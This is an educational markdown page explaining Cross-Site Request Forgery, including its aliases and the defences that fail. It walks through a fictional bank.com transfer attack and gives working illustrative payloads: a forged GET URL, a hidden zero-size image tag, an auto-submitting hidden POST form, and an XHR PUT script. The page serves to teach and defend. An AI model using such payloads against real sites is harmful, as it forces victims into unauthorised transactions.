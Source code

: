 # CSRF - Cross Site Request Forgery

CSRF is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated.

CSRF attacks specifically __target state-changing requests__, not theft of data, since the attacker has no way to see the response to the forged request.

With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the user of a web application into executing actions of the attacker's choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.

* [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)
  * How to Review Code
  * How to Test
  * How to Prevent

#### Also known As
* XSRF
* Sea Surf
* Session Riding
* Cross-Site Reference Forgery
* Hostile Linking

## Description

Tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf.

For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim.

## Preventions that do NOT work

#### Using a _secret_ cookie

All cookies, even the secret ones, will be submitted with every request.

#### Only accepting POST requests

The misconception is that since the attacker cannot construct a malicious link, a CSRF attack cannot be executed. This logic is incorrect.

There are numerous methods in which an attacker can trick a victim into submitting a forged POST request, such as a simple form hosted in an attacker's Website with hidden values. This form can be triggered automatically by JavaScript or can be triggered by the victim who thinks the form will do somethnig else.

#### Multi-Step Transactions

As long as an attacker can predict or deduce each step of the complted transacation, then CSRF is possible.

#### URL Rewriting (including session ID)

An attacker cannot guess the victim's session ID. However, this introduces a new vulnerability, the user's session ID is exposed in the URL.

Don't fix one security flaw by introducing anoher.

#### HTTPS

HTTPS by itself does nothing to defend against CSRF.

## Example

In order to execute an attack, we must first understand how to generate a valid malicious request for our victim to execute. Let us consider the following example:

Alice whishes to transfer $100 to Bob using `bank.com` web application that is vulnerable to CSRF. Maria, an attacker, wants to trick Alice into sending te money to her instead.

1. Build an exploit URL or script
2. Trick Alice into executing the action wil social engineering

### GET Scenario

> A real life example of CSRF using GET was a [uTorrent explot](https://www.ghacks.net/2008/01/17/dos-vulnerability-in-utorrent-and-bittorrent/) from 2008 that was used on a mass scale to download malware

If GET requests are used to transfer parameters and execute actions, the money transfer operation might be reduced to:

```
GET http://bank.com/transfer.do?acct=BOB&amount=100 HTTP/1.1
```

Maria constructs he following url:

```
GET http://bank.com/transfer.do?acct=MARIA&amount=100000 HTTP/1.1
```

The social enginerring aspect fo te attack tricks Alice into loading this URL when she's logged into the bank application:

* Sends an unsolicited email with HTML content
* Planting an exploit URL or sript on pages that are likely to be visited by the victim while tey are also doing online banking
* Disguised as an ordinary link
  * `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>`
* Disguised as a 0x0 fake image
  * `<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">`

If this image tag were included in the email, Alice wouldn't see anything. However, the browser _will still_ submit the request to `bank.com` without any visual indiation hat te transfer has taken place.

### POST Scenario

The only difference is how the attack is being executed by the victim.

```
POST http://bank.com/transfer.do HTTP/1.1

acct=BOB&amount=100
```

Such request cannot be delivered using standard `A` or `IMG` tags, but can be delivered using a FORM:

```html
<form action="http://bank.com/transfer.do" method="POST">

<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>

</form>
```

You don't even need the user to click on the submit button, you can execute it automatically using JavaScript:

```html
<body onload="document.forms[0].submit()">

`<form...`
```

### Other HTTP Methods

Modern API frequently use other methods, such as PUT or DELETE. Let's assume the vulnerable bank uses PUT that takes a JSON block as an argument.

```
PUT http://bank.com/transfer.do HTTP/1.1

`{ "acct":"BOB", "amount":100 }`
```

Such requests can be executed with JaaScript embedded into an exploit page:

```html
<script>
function put() {
    var x = new XMLHttpRequest();
    x.open("PUT","http://bank.com/transfer.do",true);
    x.setRequestHeader("Content-Type", "application/json");
    x.send(JSON.stringify({"acct":"BOB", "amount":100})); 
}
</script>

<body onload="put()">
```

Fortunally __those requests won't be executed__ by modern web browsers thanks to __SOP__ restrictions, that is enabled by default unless the target web site explicitly opens up cross-origin requests from the attacker's (or everyone's) origin using CORS:

```
Access-Control-Allow-Origin: *
```